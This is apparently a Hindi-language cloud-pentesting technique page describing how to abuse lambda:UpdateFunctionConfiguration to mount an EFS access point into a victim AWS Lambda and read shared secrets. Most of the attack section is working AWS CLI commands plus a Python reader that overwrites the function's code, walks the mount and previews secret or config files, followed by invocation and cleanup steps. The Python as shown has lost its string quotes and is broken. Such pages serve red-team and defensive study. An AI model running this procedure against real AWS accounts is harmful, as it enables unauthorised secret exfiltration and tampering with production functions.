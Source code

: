 # AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Data Theft)

`lambda:UpdateFunctionConfiguration` का दुरुपयोग करके एक मौजूदा EFS Access Point को Lambda से attach करें, फिर ऐसा साधारण कोड deploy करें जो mounted path से फ़ाइलें list/read करे ताकि पहले function द्वारा access न की जा सकने वाली shared secrets/config को exfiltrate किया जा सके।

## आवश्यकताएँ
- पीड़ित account/principal पर Permissions:
- `lambda:GetFunctionConfiguration`
- `lambda:ListFunctions` (to find functions)
- `lambda:UpdateFunctionConfiguration`
- `lambda:UpdateFunctionCode`
- `lambda:InvokeFunction`
- `efs:DescribeMountTargets` (to confirm mount targets exist)
- पर्यावरण मान्यताएँ:
- Target Lambda VPC-enabled है और इसके subnets/SGs EFS mount target SG तक TCP/2049 पर पहुँच सकते हैं (उदा. role में AWSLambdaVPCAccessExecutionRole है और VPC routing इसकी अनुमति देता है)।
- EFS Access Point उसी VPC में होना चाहिए और Lambda subnets के AZs में mount targets होने चाहिए।

## हमला
- वेरिएबल
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```
1) EFS Access Point को Lambda से जोड़ें
```
aws lambda update-function-configuration \
--function-name $TARGET_FN \
--file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
--region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
2) code को एक सरल रीडर से ओवरराइट करें जो फ़ाइलों की सूची दिखाए और संभावित secret/config फ़ाइल के पहले 200 bytes को निहारता है।
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
out={ls:[],peek:None}
try:
for root, dirs, files in os.walk(BASE):
for f in files:
p=os.path.join(root,f)
out[ls].append(p)
cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
if cand:
with open(cand,rb) as fh:
out[peek] = fh.read(200).decode(utf-8,ignore)
except Exception as ex:
out[err]=str(ex)
return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
3) Invoke करें और डेटा प्राप्त करें
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```
आउटपुट में /mnt/ht के अंतर्गत डायरेक्टरी की सूची और EFS से चुनी हुई secret/config फ़ाइल का छोटा पूर्वावलोकन शामिल होना चाहिए।

## प्रभाव
सूचीबद्ध permissions वाले attacker arbitrary in-VPC EFS Access Points को victim Lambda functions में mount करके EFS पर संग्रहीत shared configuration और secrets पढ़कर exfiltrate कर सकते हैं, जिन्हें पहले उस function के लिए inaccessible था।

## सफाई
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```

